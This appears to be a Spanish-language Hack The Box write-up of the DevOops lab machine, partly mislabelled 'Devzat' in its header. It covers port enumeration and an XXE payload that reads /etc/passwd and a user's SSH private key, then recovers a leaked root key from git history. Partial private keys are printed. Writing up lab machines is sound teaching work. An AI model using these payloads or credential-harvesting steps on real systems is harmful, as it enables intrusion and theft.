 ```yaml
---
layout: single
title: Devzat - Hack The Box
excerpt: "Maquina sencillita. XML y encontrar un repo Git con credenciales leakeadas"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-devoops/devops1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - Git
  - XXE
---
```



# 10.10.10.91 - DevOops
![](/assets/images/htb-devoops/devops1.png)

-----------------------
# Part 1: Enumeración

PUertos abiertos 22(ssh), 5000
![](/assets/images/htb-devoops/devops2.PNG)


```console
└─$ curl -s http://10.10.10.91:5000
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.
TODO: replace this with the proper feed from the dev.solita.fi backend.
[/feed]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ/'
000000347:   200        0 L      39 W       347 Ch      "upload"                                             
000000112:   200        1815 L   24122 W    517022 Ch   "feed"
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ.php'
# Nada
└─$ wfuzz -c --hw=31 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.91:5000" -u http://10.10.10.91:5000/ -t 100
# Tampoco
```

**/feed** -> nos muestra la misma foto que salia en el puerto 5000

-----------------------
# Part 2: XXE

En **/uploads** nos piden un xml con una estrcutura muy concreta:

![](/assets/images/htb-devoops/devops3.PNG)

```
<?xml version="1.0" encoding="UTF-8"?>
<elements>
    <Author>William Gibson</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
```
PROCESSED BLOGPOST: Author: William Gibson Subject: Cyberpunk Content: Neuromante 
URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```
Esto nos leakea el lugar donde se sube y una ruta/usuario del sistema "roosa"

Si subimos un XML "muy especial" (inyeccion XXE)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
Conclusión: Usarios -> root git y roosa

Como sabemos que existe el usuario roosa, podemos pedir su llave ```/home/roosa/.ssh/id_rsa```

![](/assets/images/htb-devoops/devops4.PNG)

```console
└─$ ssh -i id_rsa roosa@10.10.10.91
```
-----------------------
# Part 3: En el sistema
```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```
- Archivos que llaman la atencion: /home/roosa/deploy/src/app.py~ /home/roosa/service.sh 
La "~" significa backup, con diff vemos las diferencias...
```console
roosa@devoops:/tmp$ diff <(cat /home/roosa/deploy/src/app.py~) <(cat /home/roosa/deploy/src/app.py)
<   run_gunicorn_app("0.0.0.0", 5000, True, )
>   run_gunicorn_app("0.0.0.0", 5000, True, None)
```
En la carpeta home de esta persona hay un script de bash.

```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```

En esa carpeta hay un script.sh entre otras cosas:
```bash
roosa@devoops:~/work/blogfeed$ cat run-gunicorn.sh
#!/bin/sh

export FLASK_APP=feed.py
export WERKZEUG_DEBUG_PIN=151237652
gunicorn -w 10 -b 0.0.0.0:5000 --log-file feed.log --log-level DEBUG --access-logfile access.log feed:app
```
Si buscamos más en esa carpeta... Encontramos un repositorio.
```console
roosa@devoops:~/work/blogfeed$ ls -la
drwxrwx--- 8 roosa roosa 4096 Mar 26  2021 .git
...
```

-----------------------
# Part 4: Leak

SIempre que nos topemos con un git, hay que ver antiguas versiones del proyecto a ver si hay cosas criticas que hayan quitado...
```console
roosa@devoops:~/work/blogfeed/.git$ git log --oneline
7ff507d Use Base64 for pickle feed loading
26ae6c8 Set PIN to make debugging faster as it will no longer change every time the application code is chang
ed. Remember to remove before production use.
cec54d8 Debug support added to make development more agile.
ca3e768 Blogfeed app, initial version.
dfebfdf Gunicorn startup script
33e87c3 reverted accidental commit with proper key
d387abf add key for feed integration from tnerprise backend
1422e5a Initial commit

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d 26ae6c8
# Sale esta ruta /debugconsole pero no aparece si la busco en el navegador lo mismo con /newpost

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d d387abf
# a/resources/integration/authcredentials.key
 -----BEGIN RSA PRIVATE KEY-----
-MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
-ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
+vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
```
Han sustituido el contenido de una llave privada por otra. Dicha llave existe: 
```console
roosa@devoops:~/work/blogfeed/resources/integration$ cat authcredentials.key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
...
roosa@devoops:~/work/blogfeed/resources/integration$ cp authcredentials.key /tmp/
```
La llave esta es la que han cambiado, si la cambio por la nueva... (quitando los "+" claro)
```
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
...
```
Podemos acceder como root
```console
roosa@devoops:/tmp$ ssh -i id_rsa root@localhost
root@devoops:~#
```